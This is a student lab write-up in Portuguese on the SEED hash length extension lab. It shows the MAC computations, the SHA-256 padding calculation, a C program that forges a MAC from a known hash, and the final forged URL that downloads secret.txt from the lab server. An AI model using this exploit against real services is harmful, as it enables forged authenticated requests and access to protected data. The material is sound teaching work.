





# Logbook 10

## Task 1

- Começamos por testar como funcionam os pedidos url e o cálculo do endereço mac

**comando:**

```shell
echo -n "123456:myname=DiogoRamos&uid=1001&lstcmd=1" | sha256sum
```

**output:**

```shell
2eef4a21c48e8feb2c11a58678c9f22fa7ce6f552361107d3ac9874be0c7bba3  -
```

- Com isto o endereço com que ficámos foi, http://www.seedlab-hashlen.com/?myname=DiogoRamos&uid=1001&lstcmd=1&mac=2eef4a21c48e8feb2c11a58678c9f22fa7ce6f552361107d3ac9874be0c7bba3, que nos levou para esta parte do website.



- Depois como pedido no guião enviámos um request de download de um ficheiro presente no website, no nosso caso testámos com o secret.txt, onde tivemos de calcular novamente o endereço mac.

**comando:**

```shell
echo -n "123456:myname=DiogoRamos&uid=1001&lstcmd=1&download=secret.txt"|sha256sum
```

**output:**

```shell
6b28bab2105db01ed2d12d8f0a931190d1ac6d0066762fd45421f91d88bd52cf  -
```

- O endereço com que ficámos foi, "http://www.seedlab-hashlen.com/?myname=DiogoRamos&uid=1001&lstcmd=1&download=secret.txt&mac=6b28bab2105db01ed2d12d8f0a931190d1ac6d0066762fd45421f91d88bd52cf", que nos levou para uma nova parte do website, neste caso com o conteúdo do ficheiro secret.txt.




## Task 2

- Seguindo a mesma lógica da primeira tarefa, com este link http://www.seedlab-hashlen.com/?myname=DiogoRamos&uid=1001&lstcmd=1&download=key.txt&mac=046910081944edfae809ad8d391fd990d355b3d4284b774029e06ecdb738ef2d ,conseguimos ver esta página do website que tinha a key e o id que era necessário.



- No guião era pedido para caluclar o padding para esta mensagem

**Mensagem:**
```
123456:myname=DiogoRamos&uid=1001&lstcmd=1
```

**Cálculo do padding:**
Tamanho da mensagem = 42
Padding = 64 - (42+8(length field))= 14
Bit = 0x0150

**Mensagem com Padding:**
```
"123456:myname=DiogoRamos&uid=1001&lstcmd=1"
"\x80"
"\x00\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00"
"\x00\x00\x00\x00\x00\x00\x01\x50"
```

## Task 3

- A tarefa 3 baseou se basicamente em juntar todas as tarefas anteriormente feitas e calcular um novo mac,o que foi feito por passos foi o seguinte:


- Usámos o mac da primeira tarefa, **2eef4a21c48e8feb2c11a58678c9f22fa7ce6f552361107d3ac9874be0c7bba3**, para substituir nas chamadas à função htole, e demos append ao request de download do ficheiro secret.txt, que originou o seguinte programa em c:

```c
/* length_ext.c */
#include <stdio.h>
#include <arpa/inet.h>
#include <openssl/sha.h>
int main(int argc, const char *argv[])
{
int i;
unsigned char buffer[SHA256_DIGEST_LENGTH];
SHA256_CTX c;
SHA256_Init(&c);
for(i=0; i<64; i++)
SHA256_Update(&c, "*", 1);
// MAC of the original message M #task1
c.h[0] = htole32(0x2eef4a21);
c.h[1] = htole32(0xc48e8feb);
c.h[2] = htole32(0x2c11a586);
c.h[3] = htole32(0x78c9f22f);
c.h[4] = htole32(0xa7ce6f55);
c.h[5] = htole32(0x2361107d);
c.h[6] = htole32(0x3ac9874b);
c.h[7] = htole32(0xe0c7bba3);
// Append additional message
SHA256_Update(&c, "&download=secret.txt", 20);
SHA256_Final(buffer, &c);
for(i = 0; i < 32; i++) {
printf("%02x", buffer[i]);
}
printf("\n");
return 0;
}
```

- Depois de compilado e corrido deu nos o mac que precisavamos para construir o pedido ao servidor




- Por fim precisavamos de construir o pedido final, em que o url ficou assim:
    - myname=DiogoRamos&uid=1001&lstcmd=1 -> Tarefa 1
    - %80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%50 -> Tarefa 2 padding criado
    - &download=secret.txt&mac=74951cb09f9e7a8be696ca45df9a82a4fe3f5d75c8de4624e1fd7d72af4ea8f9 -> tarefa 3 mac + agregação do pedido de download do ficheiro

- URL FINAL - > http://www.seedlab-hashlen.com/?myname=DiogoRamos&uid=1001&lstcmd=1%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01%50&download=secret.txt&mac=74951cb09f9e7a8be696ca45df9a82a4fe3f5d75c8de4624e1fd7d72af4ea8f9, que nos leva para a página com o conteúdo do ficheiro secret.txt.




